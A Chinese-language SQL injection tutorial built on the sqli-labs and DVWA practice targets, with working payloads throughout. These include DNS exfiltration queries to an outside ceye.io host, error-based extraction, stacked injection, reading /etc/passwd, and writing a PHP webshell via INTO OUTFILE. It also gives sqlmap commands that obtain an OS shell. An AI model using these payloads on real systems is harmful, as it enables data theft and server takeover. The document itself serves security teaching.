

# 201-A4-SQL注入（中）

在本节中，我们将学习一些更加复杂的SQL注入方式。

## 1. 不同请求方式的注入

### 1.1 get请求方式的SQl注入

例子出自sqli-labs，less-1


按照提示输入合法参数 ?id=1


用burpsuite对页面进行抓包
可以发现，http使用的是get请求，同时在URL中也可以看得到参数的传递。


尝试在输入中加入’ 检查是否存在注入点。
发现输入后，页面有提示错误，表示有注入点。


使用sqlmap进行注入测试
使用命令：`sqlmap -u "http://192.168.0.180/sqli-labs/Less-1/?id=1" -p id`


### 1.2 post请求方式的注入

打开靶机sqli-labs，进入less-11页面


先使用dumb用户进行登录。


尝试抓包查看数据包
发现这里用的是post请求，同时URL中也不再显示参数。


尝试通过修改数据包的post参数，加入’测试能否注入
发现web报错，说明有注入点。


使用sqlmap进行注入测试
使用sqlmap -r测试。


## 2. 特殊位置的注入

### 2.1 存在于cookie中的注入

打开靶sqli-labs,Less-20页面。


输入正常参数进行测试
发现有两个页面


使用burpsuite进行扫描
第二个数据包cookie存在注入点。


使用sqlmap进行注入测试
`sqlmap -u "http://192.168.0.180/sqli-labs/Less-20/index.php" --risk=3 --level=5 --cookie="uname=Dumb" `


### 2.2 存在于User-Agent 中的注入

打开靶机sqli-labs,Less-18页面



请求正文中的uname和passwd的值一定要是数据库中存在的用户名和对应的密码，因为这关代码会先判断数据库中是否有该用户名和密码的用户，如果有才会将User-Agent和客户端ip信息写入数据库

burp抓包在User-Agent中加入引号进行测试

发现浏览器存在报错，存在注入点


在brupsuite的repeater选项卡中。

注入`' or updatexml(0,concat(0x2b5e,version()),0),",")#`

关于这个语句的含义，将在后文中详述。这里只是举例，sql注入存在的特殊位置。


可以发现注入出了数据库版本。

注入`' or updatexml(0,concat(0x2b5e,database()),0),",")#`


可以发现注入出数据库名。


##  3.利用DNSLOG注入

在前面的章节中，我们已经学习了DNS的原理和DNS服务的搭建。当DNS服务被请求时，会在DNSlog中留下相应的日志。

这种特性可以帮助我们在许多没有回显的漏洞利用中得到便利。

善于使用这个机制，可以在windows搭载数据库的环境中将盲注变为显注。

```
SELECT first_name, last_name FROM users WHERE user_id = '1'  and LOAD_FILE(CONCAT('\\\\',(select database(),'ubs9hj.ceye.io')))#'


1' and SELECT LOAD_FILE(CONCAT('\\\\',database(),'ubs9hj.ceye.io'))#

1'select load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#


SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#'

select load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'));


SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#'

1' and 1=2 union select 2,load_file(concat('\\\\',database(),'.ubs9hj.ceye.io\\AB'))#


1' and 1=2 union select 2,load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 1,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users' limit 1,1),'.ubs9hj.ceye.io\\AB'))#

1' and 1=2 union select 2,load_file(concat('\\\\',(select user from dvwa.users limit 0,1),'.ubs9hj.ceye.io\\AB'))#
1' and 1=2 union select 2,load_file(concat('\\\\',(select password from dvwa.users limit 0,1),'.ubs9hj.ceye.io\\AB'))#


1'and 1=2 union select user,password from dvwa.users#


select column_name from information_schema.columns where table_schema= 'dvwa' and table_name= 'users'

(select table_name from information_schema.tables where table_schema=database() limit 0,1)
```


## 4.基于报错的注入

基于报错的注入有很多种形式。

这里主要介绍利用XPath语法错误进行注入和主键重复报错注入。

### 4.1 利用XPath语法错误进行注入

这里选用sqli-lab靶场的第六关。


可以看到这个报错回显在页面上，可能有sql注入。

利用xpath语法错误来进行报错注入主要利用`extractvalue`和`updatexml`两个函数。
使用条件：**mysql版本>5.1.5**


extractvalue函数

```
正常语法：extractvalue(xml_document,Xpath_string);
第一个参数：xml_document是string格式，为xml文档对象的名称
第二个参数：Xpath_string是xpath格式的字符串
作用：从目标xml中返回包含所查询值的字符串
```

第二个参数是要求符合xpath语法的字符串，如果不满足要求，则会报错，并且将查询结果放在报错信息里，因此可以利用。

常见用法：

```
id=" and(select extractvalue("anything",concat('~',(注入语句))))
id=" and(select extractvalue(1,concat('~',(select database()))))
id=" and(select extractvalue(1,concat(0x7e,@@version)))
```

```
注：
0x7e  是~的asccii码
concat(‘a’,‘b’)=“ab”
version()=@@version
‘~‘可以换成’#’、’$'等不满足xpath格式的字符
extractvalue()能查询字符串的最大长度为32，如果我们想要的结果超过32，就要用substring()函数截取或limit分页，一次查看最多32位
```


updatexml函数与extractvalue函数极为相似。

```
id='and(select updatexml("anything",concat('~',(注入语句())),"anything"))
```

当concat函数内拼接出的字符不符合xpath格式时，会报错，并将报错结果带回来。

```
and (select updatexml(1,concat('~',(select database())),1))


" and (select updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())),0x7e))
' and (select updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name="TABLE_NAME")),0x7e))
" and (select updatexml(1,concat(0x7e,(select group_concat(COLUMN_NAME)from TABLE_NAME)),0x7e))
```


### 4.2 利用主键重复报错进行注入

利用concat+rand()+group_by()导致主键重复。数据库会报错然后将查询结果返回。

这种报错方法的本质是因为floor(rand(0)*2)的重复性，导致group by语句出错。group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。

一个常见的语句如下：

`and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

让我们逐步拆解这个语句。

rand()：生成0~1之间的随机数。


floor函数，其功能是向下取整。

那么floor(rand(0)*2))，rand()：生成0到1之间的随机数。乘以二就是0到2之间的随机数，向下取整，结果只能是0和1.


groud by 对数据进行分组，可以看到原本结果只有0和1，于是只分成了两组。


count(*)简单说就是个计数的函数；这里和group by合用用来计算每个分组出现的次数。

　

那么最终的payload是：

```
' union select 1 from (select count(*),concat((slelect语句),floor(rand(0)*2))x from "一个很大的表" group by x)a--+
```

这里表示，按照x分组，x分组为`floor(rand(0)*2`产生的随机值即0和1。因为rand()函数会因为表有很多行而执行多次，产生多个0和1。

所以，当在group by对其进行分组的时候，会不断的产生新分组，当其反复执行，发先分组1已结存在时，就有会报错。

```
' union select 1 from (select count(*),concat((select user()),floor(rand(0)*2))x from information_schema.tables group by x)a--+

' union select 1 from (select count(*),concat((select user())," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select database())," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select column_name from information_schema.columns where table_name="TABLE_NAME" limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a

' union select 1 from (select count(*),concat((select COLUMN_NAME from TABLE_NAME limit 0,1) ," ",floor(rand(0)*2))x from information_schema.tables group by x)a


```


## 5.二阶注入

二次注入，可以概括为以下两步:
• 第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

• 第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。

这个例子出自sqli-lab的24关。

首先注册一个`admin'#`的用户。


然后更改`admin'#`的用户的密码。

 

而实际上，此次更改的是用户`admin`的密码。


## 6.宽字节注入

宽字节注入是数据库编码采用GBK编码时所产生的漏洞。尽管现在使用GBK编码的数据库已不多见，但由于这个漏洞绕过网站转义机制的经典性，仍然具有很大的启发意义。

下图为MariaDB默认的编码，通过 `alter database [数据库名] character set [字符集名]`，可以修改数据库编码。如果改为GBK编码，这一漏洞就会存在。


下面的例子出自sqli-lab的第32关。


当我们输入`'`时，会发现网站防御机制利用`\` 对`'` 进行了转义，使其被看做一个字符而非数据库查询语句。   


mysql在使用GBK编码的时候，会认为两个字符为一个汉字，例如%ab%5c就是一个汉字（前一个ascii码大于128才能到汉字的范围,如%ab，%df）。网站在过滤 ' 的时候，往往是利用反斜杠转义将 `'` 转换为 `\'` 。所以如果我们输入%ab%27（%27就是单引符号会被转义成`\' `也就是`%5c%27`），在后台`%ab`会将`%5c`“吃掉”，组成一个汉字（%ab%5c是一个汉字）。

如下图，出现数据库报错，说明单引号起作用了。


接下来就可以利用手工注入进行余下的部分了。


 


## 7. 堆叠注入攻击

数据库的堆叠查询可以执行多条语句，多语句之间可以用分号隔开。

堆叠注入就是利用这个特点，可以在第二个SQL语句中构造自己要执行的语句。

以下例子出自sqli-lab第38关。


注入如下语句：

```
1';update users set password='123456' where username='Dumb';--+
```


## 8.利用SQL注入读取与写入文件

### 8.1 利用SQL注入读取文件

利用load_file()函数可以读取数据库有权限读取的文件。

如，读/etc/passwd

`1' and 1=2 union select 1,load_file('/etc/passwd');#`


### 8.2 利用SQL注入写入文件

利用outfile函数可以在数据库有写权限的目录写入文件。

#### 8.2.1 将数据库查询结果写入文件

如将对user和password的查询结果写入/var/www/html目录下命名为1.bak的文件中：

```
1' and 1=2 union select user,password from users into outfile '/var/www/dvwaplus/1.bak'#
```


出现这种报错是因为数据库在/var/www/html目录下没有写入权限。

我们作弊，给这个目录777权限。然后重新执行此语句。


查看服务器发现文件成功写入  或者通过web下载文件。


其中密码为MD5加密的值，可以在MD5在线解密网站解密https://www.bejson.com/enc/md5dsc/


#### 8.1.2 写入一句话木马

利用outfile函数可以将一句话木马写入到一个文件内，并保存在数据库有写入权限的web路径下。

```
1' and 1=2 union select 1,'<?php @eval($_POST[123])?>' into outfile '/var/www/dvwaplus/tq.php'#
```


我们作弊查看服务器该路径，发现已经写入了文件。


浏览器访问这个文件，发现其存在，空白说明php代码已被解析。


我们可以用Cknife工具连接这个webshell


#### 8.1.3 利用sqlmap获得shell权限

Sqlmap证明存在注入并确保有dba权限。所谓DBA权限就是数据库的最大权限。在MariaDB数据库中一般为root。在sql注入中，只要注入权限为DBA用户所管理的库时，才能行使数据库的完整权限，执行文件写入等操作。前文手注写入木马也是基于这个前提。

```shell
sqlmap -u "http://192.168.10.112/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=vmhebkhe3pl91nmpij1kfnr7f7; security=low" --is-dba
```


`current user is DBA: True`代表其具备DBA权限。

在sqlmap中`--os-shell`代表sqlmap将尝试获取shell。

```
sqlmap -u "http://192.168.10.112/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=vmhebkhe3pl91nmpij1kfnr7f7; security=low" --os-shell
```

选择对相应的中间件类型，这里用的lamp,所以选PHP


选择2制定web站点路径


输入上传目录/var/www/html


获得os shell


